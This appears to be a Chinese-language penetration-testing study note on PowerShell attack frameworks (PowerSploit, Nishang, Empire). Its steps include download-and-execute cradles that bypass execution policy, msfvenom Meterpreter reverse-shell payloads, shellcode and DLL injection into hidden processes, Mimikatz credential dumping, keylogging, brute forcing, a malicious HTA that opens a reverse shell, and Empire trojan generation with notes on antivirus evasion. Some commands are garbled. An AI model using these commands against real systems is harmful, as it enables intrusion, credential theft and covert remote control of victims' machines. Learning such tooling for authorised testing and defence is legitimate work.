Powershell渗透学习
[TOC]
powershell渗透基础
powershell简介
PowerShell是一种基于任务的命令行解释器和脚本环境，可以说是一种强大的shell,如同linux的bash,专为系统管理员而设计，以.NET框架为平台，Windows PowerShell帮助IT专业人员和超级用户控制和自动化管理Windows操作系统和运行在操作系统上的应用。现被更广泛用于渗透测试等方面，在不需要写入磁盘的情况下执行命令，也可以逃避Anti-Virus检测。
注:powershell只能针对win7以后的系统使用,
为什么要学powershell
对于我们渗透测试人员来说，PowerShell给我们提供了一个非常强大的shell和脚本环境。现在我们的渗透目标上都已经默认安装了PowerShell（win7以后，PowerShell已经默认集成在操作系统上），这给我们提供了一个强大的后渗透利用工具，给予我们很高的权限和广阔的攻击面。
powershell的优点
- 易学
- 基于.NET框架
- 操作系统信任
- 提供win系列操作系统的几乎一切访问权限
- win7之后默认安装
- 面向对象
- ISE编程接口
常见的Powershell攻击工具
- PowerShell：这是众多PowerShell攻击工具中被广泛使用的PowerShell后期的漏洞利用框架，常用来进行信息探测，特权提升，凭证窃取，持久化等操作。
- Nishang：基于PowerShell的渗透测试专用工具，集成了框架，脚本和各种Payload，包含下载和执行，键盘记录，DNS，延时命令等脚本。
- Empire：基于PowerShell的远程控制木马，可以从凭证数据库中导出和跟踪凭证信息，常用于提供前期漏洞利用的集成模块，信息探测，凭证窃取，持久化控制。
- PowerCat：PowerShell版的NetCat，有着网络工具中的”瑞士军刀”美誉，它能通过TCP和UDP在网络中读取数据。通过与其他工具结合和重定向，读者可以在脚本中以多种方式使用它
powershell语法基础
推荐文章:https://www.anquanke.com/post/id/87976 讲的很细。
1 | |管道符的作用是将一个命令的输出作为另一个命令的输入 |
基本语法
运输符
1 | · >:将输出保存到指定文件中（用法：Get-Process>output.txt） |
数组
1 |
语句
- 条件语句
1 | If($var {comparison_statement} $var2) {What_To_Do} |
- 循环语句
1 | while() {} |
常用命令
1 | 使用powershell满足一个标椎动词-名词组合，来帮助我们更快理解。 |
cmdlets说明
Cmdlets是PowerShell的非常重要的内部命令集。
Cmdlet是以.NET类实例形式存在的命令。
它并不是简单的可执行文件，它有很多属性，这些属性用来指定输入参数或者使用管道来管理重定向。
Cmdlets可以用任何.NET语言来编写，也可以用PowerShell脚本语言来编写。我们可以通过输入“Get-Command”可以显示可用的Cmdlets命令。
输入“Get-Command”，这将返回所有可用的命令

渗透中常用的cmdlets命令
查看start-process的帮助文档，
Get-Help Start-Process，
如图：

我们也可以使用Get-Process命令来获取指定的进程。这个命令在后渗透中也很有用而且经常用到，可以用来获取进程的ID，比如获取资源管理器的ID，如图：

常用的cmdlets的命令
- Copy a file: Copy-Item source_file destination_file
- Move a file: Move-Item source_file destination_file
- Get Services: Get-Service
- Formatting output: Get-Process l Format-List –property name
- Get hash (SHA1) of a file: Get-FileHash –Algorithm SHA1 file
- Get-Content
- Get-Location
- start-process
powershell执行策略
| 名称 | 说明 |
|---|---|
| Restricted | 受限制的，可以执行单个的命令，但是不能执行脚本Windows 8, Windows Server 2012, and Windows 8.1中默认就是这种策略，所以是不能执行脚本的，执行就会报错，那么如何才能执行呢？Set-ExecutionPolicy -ExecutionPolicy Bypass就是设置策略为Bypass这样就可以执行脚本了。 |
| AllSigned | AllSigned 执行策略允许执行所有具有数字签名的脚本 |
| RemoteSigned | 当执行从网络上下载的脚本时，需要脚本具有数字签名，否则不会运行这个脚本。如果是在本地创建的脚本则可以直接执行，不要求脚本具有数字签名。 |
| Unrestricted | 这是一种比较宽容的策略，允许运行未签名的脚本。对于从网络上下载的脚本，在运行前会进行安全性提示。需要你确认是否执行脚本 |
| Bypass | Bypass 执行策略对脚本的执行不设任何的限制，任何脚本都可以执行，并且不会有安全性提示。 |
| Undefined | Undefined 表示没有设置脚本策略。当然此时会发生继承或应用默认的脚本策略。 |
绕过策略的常见方法
- 本地读取然后通过管道符运行
powershell get-content test.ps1 | powershell -noprofile -
- 远程下载并通过IEX运行脚本
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/a.ps1')"
- Bypass执行策略绕过
powershell -executionpolicy bypass -File ./a.ps1
- Unrestricted执行策略标志
powershell -executionpolicy unrestricted -File ./a.ps1
当运行一个从网上下载的未签名的脚本时，会给出权限提示
注:
1 | Invoke-Expression（IEX的别名）：用来把字符串当作命令执行。 |
powershell渗透测试框架Powersploit
简介
PowerShell是一款基于PowerShell的后渗透(Post-Exploitation)框架软件
其github地址为 https://github.com/mattifestation/PowerSploit.git
各模块功能
一、代码执行（CodeExecution）
- Invoke-DllInjection
- Invoke-ReflectivePElnjection
- Invoke-Shellcode
- Invoke-WmiCommand
二、脚本修改（ScriptModification）
- Out-EncodedCommand
- Out-CompressedDll
- Out-EncryptedScript
- Remove-Comments
三、权限维持（Persistence）
- New-UserPersistenceOption
- New-ElevatedPersistenceOption
- Add-Persistence
- Install-SSP
- Get-SecurityPackages
四、绕过杀毒软件（AntivirusBypass）
Find-AVSignature
五、信息收集（Exfiltration）
这个文件夹主要是收集目标主机上的信息。
六、信息侦察（Recon）
这个文件夹主要是以目标主机为跳板进行内网主机侦察。
搭建PowerSploit脚本服务器
1.下载PowerSploit到服务器
1 | git clone https://github.com/mattifestation/PowerSploit.git |
2.启动Apache
1 | service apache2 start |
3.本地查看是否成功搭建
Invoke-Shellcode
CodeExecution模块下的Invoke-Shellcode脚本常用于将Shellcode插入指定的进程ID或本地PowerShell中，下面介绍两种常用的反弹Meterpreter Shell方法。
1.直接执行shellcode反弹Meterpreter Shell
在MSF里使用reverse_https模块进行监听
使用msfvenom命令生成一个powershell脚本木马
1 | msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.157.139 LPORT=4444 -f powershell -o test |
接着在目标机Powershell下输入以下命令下载该脚本
1 | PS C:\Users\zn> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") |
接着输入以下命令下载木马
1 | IEX (New-Object Net.WebClient).DownloadString("http://192.168.139/test") |
接着在powershell下运行如下命令
1 | PS C:\Users\zn> Invoke-Shellcode -Shellcode ($buf) -Force |
其中的-Force意思是不用提示，直接执行。
按理说，此步骤执行完成后，返回MSF的监听界面下，会发现已经反弹成功了，可是我的Powershell在运行完Invoke-Shellcode -Shellcode ($buf) -Force命令后直接提示“Windows PowerShell已停止工作”，然后就崩溃了，导致不能反弹成功，不知道为啥。
2.指定进程注入shellcode反弹Meterpreter Shell
同样先在目标机Powershell下输入命令下载脚本和木马
1 | PS C:\Users\zn> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") |
接着输入Get-Process命令或者ps命令查看当前进程
然后输入以下命令创建一个新的进程，并把它设置为隐藏的，再输入Get-Process命令查看进程，可以看到多了一个id为2668，名为notepad的进程
1 | PS C:\Users\zn> start-process C:\Windows\System32\notepad.exe -WindowStyle Hidden |
接着输入以下命令，使用Invoke-Shellcode脚本进行进程注入
1 | PS C:\Users\zn> Invoke-Shellcode -ProcessID 2668 -Shellcode ($buf) -Force |
同样的，按理说，此步骤执行完成后，返回MSF的监听界面下，会发现已经反弹成功了，可是我的Powershell在运行完Invoke-Shellcode -Shellcode ($buf) -Force命令后直接提示“Windows PowerShell已停止工作”，然后就崩溃了，导致不能反弹成功。
Invoke-DllInjection
下面使用CodeExecution模块下的另一个脚本Invoke-DllInjection，它是一个DLL注入的脚本。
同理还是首先在MSF里配置好监听，与上面的相同。
然后使用以下命令在kali中生成一个dll的反弹木马
1 | root@kali:~# msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.157.139 LPORT=4444 -f dll -o /var/www/html/test.dll |
将test.dll下载到目标机
然后在目标机上下载脚本，输入以下命令
1 | PS C:\Users\zn> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") |
接着启动一个新进程，使用Invoke-Shellcode脚本进行进程注入
1 | PS C:\Users\zn> start-process C:\Windows\System32\notepad.exe -WindowStyle Hidden |
Invoke-Portscan
nvoke-Portscan是Recon模块下的一个脚本，主要用于端口扫描，使用起来也比较简单。使用方法如下
先下载脚本，然后进行扫描
1 | PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/Recon/Invoke-Portscan.ps1") |
Invoke-Mimikatz
Invoke-Mimikatz是Exfiltration模块下的一个脚本。使用方法如下
先下载脚本，然后执行命令即可
1 | PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1") |
这里需要注意一点，和使用Mimikatz工具一样，内置的Mimikatz在使用时同样需要管理员权限。
Get-Keystrokes
Get-Keystrokes是Exfiltration模块下的一个脚本，用于键盘记录，功能相当强大，不仅有键盘输入记录，甚至能记录鼠标的点击情况，还能记录详细的时间，实战时可以直接放入后台运行。使用方法如下。
先下载脚本，然后使用命令开启键盘记录，这里输入几个字母测试一下。
1 | PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/Exfiltration/Get-Keystrokes.ps1 |
PowerUp
主要来介绍PowerUp模块，powerUp拥有众多用来寻找目标主机的Windows服务漏洞进行提权的实用脚本，先下载脚本：
1 | IEX (New-Object Net.WebClient).DownloadString("http://192.168.157.139/PowerSploit/Privesc/PowerUp.ps1") |

1.Invoke-AllChecks
该模块会自动执行PowerUp下所有模块来检查目的主机：

2.Find-PathDLLHijack
该模块用于检查当前%PATH%的哪些目录是用户可以写入的：

3.Get-ServiceDetail
该模块用于返回某服务的信息：

Powershell渗透框架nishang
简介
Nishang是一个PowerShell脚本和有效载荷的框架和集合，它使PowerShell能够用于攻击安全性、渗透测试和红队。它是基于PowerShell的渗透测试专用工具，集成了框架、脚本和各种Payload，包括下载和执行、键盘记录、DNS、延时命令等脚本，被广泛用于渗透测试的各个阶段。Nishang在PowerShell3.0及以上的环境中才能正常使用，所以Windows7、Server2008下默认是有点小问题的。
项目地址：https://github.com/samratashok/nishang

目录结构
- ActiveDirectory：活动目录
- Antak-WebShell：WebShell
- Backdoors：后门
- Bypass：绕过
- Client：客户端
- Escalation：提权
- Execution：执行
- Gather：信息收集
- MITM：
- Misc：发音
- Pivot：跳板、远程执行exe
- Prasadhak：Virustotal
- Scan：扫描
- Shells：shell
- Utility：杂项
- Powerpreter：Meterpreter会话
Nishang使用姿势
导入所有的脚本到当前的PowerShell会话中(PowerShell v3之前)
1 | Import-Module -verbose .\nishang.psm1 |

然后输入命令：Get-Command -Module nishang
查看nishang有哪些功能

nishang常用脚本
Nishang基本上包含了渗透测试各个阶段的脚本，在扫描阶段，它也有两个很实用的脚本暴力破解和端口扫描。
1.暴力破解 （Invoke-BruteForce)
Invoke-BruteForce是Nishang中一个专注于暴力破解的脚本，它可以破解SQL Server、ActiveDirecotry、FTP、Web等服务。
使用实例：
1 | Invoke-BruteForce -ComputerName SQLServ01 -UserList C:testusername.txt -PasswordList C:testpassword.txt -Service SQL -Verbose |
2.端口扫描
Invoke-PortScan是Nishang中一个端口扫描脚本，它可以发现主机、解析主机名、端口扫描，是实战中一个很实用的脚本。
参数介绍：
1 | -StartAddress <String>起始IP-EndAddress <String>终止IP-ResolveHost 加上这个参数，解析主机名。-ScanPort 加上这个参数，扫描端口-Ports 指定扫描的端口 |
发现存活主机，解析主机名、扫描80端口是否开放。
1 | Invoke -StartAddress 192.168.110.1 -EndAddress 192.168.110.130 -ResolveHost -ScanPort -Ports 80 |
3.下载文件
Download_Execute是Nishang中一个下载执行脚本，它在实战中最常用的功能就是下载一个文本文件，然后将其转换为可执行文件执行。
用实例：
第一步：首先我们需要使用Nishang中的exetotext.ps1脚本将可执行文件更改为文本文件。
1 | PS C:Usersroot> ExetoText c:\powershellmsf.exe c:\powershellmsf.txt Converted file written to c:\powershellmsf.txt |
第二步：使用Download_Execute下载执行文本文件
1 | PS C:Usersroot> Download_Execute http://192.168.110.128/msf.txt |
使用实例：
第一步：首先我们需要使用Nishang中的exetotext.ps1脚本将可执行文件更改为文本文件。
4.信息收集
1 | 1. Check-VM 这是Nishang中检测目标机是否为虚拟机的脚本。 |
5.后门利用
1 | 1. HTTP-Backdoor 可以接收来自第三方网站的指令，并在内存中执行PowerShell脚本。 |
6.客户端攻击
Nishang中还有生成各种危害文件的脚本，它们可以生成各种感染的文件，如HTA、Word，来执行powershell脚本。可以神不知鬼不觉的发动攻击，由于各个脚本用法相同，这里以生成受感染的HTA为例子。
Out-HTA
功能：创建受感染的HTA文件，可以执行PowerShell命令和脚本。
用法实例：
1 | PS C:\nishang-master> Out-HTA -PayloadScript C:\nishang-master\Shells\Invoke-PowerShellTcpOneLine.ps1 -HTAFilePath C:\HACKER.HTA |
第一步：我们先来创建受感染的HTA文件。在下图中我们可以发现成功生成了一个受感染的HTA文件hacker.hta
第二步：先使用nc来监听端口，然后运行受感染的HTA文件，可以发现成功反弹Shell
7.powershell交互式shell
基于TCP协议的Powershell交互式shell
Invoke-PowerShellTcp是PowerShell交互式正向连接或反向连接shell，基于TCP协议
1.正向连接
目标机运行
1 | invoke-powershelltcp -bind -port 86 |
本地nc连接到目标机端口86

2.反向连接
第一步：使用nc监听本地端口86（注意必须先监听，不然在目标机上执行脚本会出错）
第二步：在目标机上反弹shell
1 | invoke-powershelltcp -reverse -ipaddress 192.168.157.138 -port 86 |

基于UDP协议的Powershell交互式shell
Invoke-PowerShellUdpPowershell交互式正向连接或反向连接shell，基于UDP协议。
基于HTTP和HTTPS协议的PowerShell交互式Shell
Invoke-PoshRatHttp and Invoke-PoshRatHttps是Powershell交互式反向连接shell，基于HTTP协议和HTTPS协议。
Powershell渗透框架empire
empire 是一个针对内网针对域控的一个渗透测试框架，和 msf 类似。其中集成了很多内网的一些工具以及命令，使用方便，且 empire 生成的木马文件基于 powershell，所以在 windows 平台上有很好的免杀效果。结合 msf 使用更是如虎添翼。empire 安装下载命令如下：
安装后，在其目录执行./empire 文件即可，打开后如下图：

empire 包含三个部分，一个是 modules 即自身的一些模块，一个是 listernes 即监听类似 msf 的 exploit/multi/handler 模块，一个是 agents 即已经链接上的会话类似 msf 存的 session。
0x01：设置监听
使用 empire 首先设置一个监听，输入 listeners 命令进入监听模块，进入后需要使用监听种类，输入 uselistener 加空格然后两下 tab 可列出所有的可使用监听类，这里我们使用 http，随后输入 info 可查看吃类监听的详细信息，如下图：
这里需要设置下 name 参数，随意定义一个名字，例如 test，然后另外还要注意下 host 参数和 prot，即监听使用的 ip 和端口，一般默认即可，就是自己本机的 ip 和 80。设置无误后，通过 execute 执行，如下图：
ps：listeners 模块下通过 list 命令可查看已经设置的监听。
0x02：生成木马
设置好监听后通过 back 命令返回上一级，然后使用 usestager 命令来指定生成木马的类型，老规矩，通过空格加两下 tab 可查看所有生成文件的类型，这里我们使用 windows/launcher_bat，即 windows 平台下的 bat 文件，同样，通过 info 查看此模块的详细信息，如下图：

生成的文件类型大体有三类，multi 开头的是通用类，osx 开头即 mac 使用，windows 即 win 平台使用。使用 launcher_bat 模块后，通过 info 我们看到了参数信息，这里需要设置一个 Listener 参数，即监听的名字，就是我们刚才的 test，设置后通过 execute 执行，文件会生成到 tmp 目录下，如下图：

我们打开这个文件看下，可以看到是 poershell 命令，然后通过 base64 编码，如下图：

这时我们 back 返回监听那一级，然后等待目标执行我们的木马文件就回得到其 shell，这里的 bat 我第一次运行 360 是没报毒，腾讯管家也没有报，火绒有报，第二次 360 报了，其他类型的文件有时会报，有时不报，原因还在看，大家下面可以试试，我们诱导目标机执行后，就会得到它的 shell，如下图：

这里我可能多点了一下执行力两边，我们通过 agents 就可查看目前得到的 shell，随后通过 interact 加 name 命令即可进入 shell 中，name 就是 shell 随机给的名称，进入后我们通过 help 可查看一些命令和一些提供的内网渗透常用的工具，如下图：
